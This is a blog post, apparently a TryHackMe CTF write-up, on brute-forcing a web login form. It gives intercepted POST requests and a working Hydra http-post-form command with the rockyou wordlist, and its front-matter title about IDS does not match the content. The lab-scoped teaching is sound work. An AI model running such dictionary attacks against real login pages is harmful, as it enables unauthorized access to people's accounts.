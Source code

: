 ```yaml
---
title: Working With Intrusion Detection System (IDS) Part 2
author: Ansh Vaid
date: 2021-12-07 7:10:00 +0530
categories: [Cyber Forensics]
tags: [IDS, Intrusion Detection System, HIDS, NIDS, Windows, Rules, Malicious, Requests, Linux, Host based]

---
```


![hack](/assets/EthicalHacking/hydrabanner.jpg)

Image taken from <a href="https://miro.medium.com/max/2000/1*NCTCiMU_5o6EgFKUp90wUA.jpeg">here</a>

---


---

---

In this blog I am going to discuss how a simple login form could be compromised by a dictionary attack if the username of any account is known to the attacker. Many CTF players encounter various challenges in which this technique could be used in cracking the password of user account in web category challenges, and many participants who are beginner in cyber domain, miss this thing.
Discussing about real life scenario, then if a web developer has created a website for a particular organization, where the employees login to their respective portal by entering their username and password only, in such scenarios the login form is very vulnerable if the username of the person is compromised. This is the main reason why login forms ask email id instead, and OTP if you successfully login to account or even a limit on number of requests in a particular time span is set to encounter such attacks.
There are two tools by which this dictionary attack could be done on the login forms:
Burp suite
Hydra
Even CURL could be used to do so if you know how to integrate it with SHELL script. Burp suite is a widely used tool, be it in the penetration testing part, CTFs, MITM attacks, dictionary attacks etc. It has an option to send the intercepted request to intruder (ctrl+i) where dictionary related attacks could be performed. Most of the students download the cracked version of Burp suite professional to unlock advance options. But using such cracked versions have a risk of getting your own device compromised. Most of the people just download the cracked versions to speed up the dictionary attacks. In such cases a person can use Hydra tool, which is widely used to do the dictionary attacks on various services like SSH, FTP etc. and also the login forms too. Also the speed would be more as compared to Burp suite tool, because we can increase or decrease the number of threads of Hydra tool using -t option, and it supports around 44 threads at a time.
Vulnerable lab setup:
> Task 9 of https://tryhackme.com/room/adventofcyber3
> Use openvpn application to access the THM lab
> Username Santa is known beforehand

![hack](/assets/EthicalHacking/hydra1.jpg)
![hack](/assets/EthicalHacking/hydra2.jpg)
![hack](/assets/EthicalHacking/hydra3.jpg)
![hack](/assets/EthicalHacking/hydra4.jpg)

Login form

Username santa known beforehand

Type any random password

Setting up proxy
Run Burp suite tool, start the interceptor and apply the proxy settings in your web browser. Click on Login button in the login page. Since the password is wrong I will definitely get an error message displayed on the screen.

![hack](/assets/EthicalHacking/hydra5.jpg)
![hack](/assets/EthicalHacking/hydra6.jpg)

Error message generated on unsuccessful login

Intercepted request after Login button was pressed in login form
Following is the intercepted request that was generated on pressing Login button.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1

username=santa&password=randomPassword&submit=Login
Copy username=santa&password=randomPassword&submit=Login part from the intercepted request, and now I will show how it could be used with hydra to crack the password of username santa.
hydra -l santa -P /usr/share/wordlists/rockyou.txt 10.10.238.99 http-post-form “/:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password” -V
Explanation of above command is as follows:
> Use -l option if you know the username, and -L option to give a file path having list of usernames. Since username santa is known, therefore option -l is used in above command.
> Use -p option if you know the password, and -P option to give a file path having list of passwords. Since password is unknown, therefore option -P is used in above command. rockyou.txt is the file having list of passwords, and mostly in every CTF you will find the password from this file only.
> IP address or domain name of the website where the form is present
> Since this form is sending the credentials in POST method, therefore http-post-form is used.
> “<URL of the page where login form is present>:<parameter containing username> = ^USER^<parameter containing password> = ^PASS^<paste other parameters as it is>:F=<error message displayed on unsuccessful login which I have shown with arrow in above snapshot>”
> -V option for verbose mode, add -t option if you want to increase the number of threads.

![hack](/assets/EthicalHacking/hydra7.jpg)
![hack](/assets/EthicalHacking/hydra8.jpg)

PRESS ENTER KEY TO RUN THE COMMAND

Password for username santa is cookie
Now the request will have correct password cookie for username santa.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1


username=santa&password=cookie&submit=Login

![hack](/assets/EthicalHacking/hydra9.jpg)

Login successful
In this way you can customize the hydra command for other login forms in CTF challenges or in vulnerable websites and your dictionary must have that password in it, otherwise no matches would be found an dictionary will over.
Another room in THM to know more on Hydra: https://tryhackme.com/room/hydra
In this blog I discussed how Hydra could be used instead of Burp suite for a dictionary attack on login page whose username is known. Since the dictionary attack in community edition of burp suite is very slow and cracked version of burp suite could compromise your device, Hydra is a better option in such cases.
Social Media Links: LinkedIn | GitHub | Instagram | Twitter
Visit My Website: https://cybergeeks.website/
Originally published at https://github.com.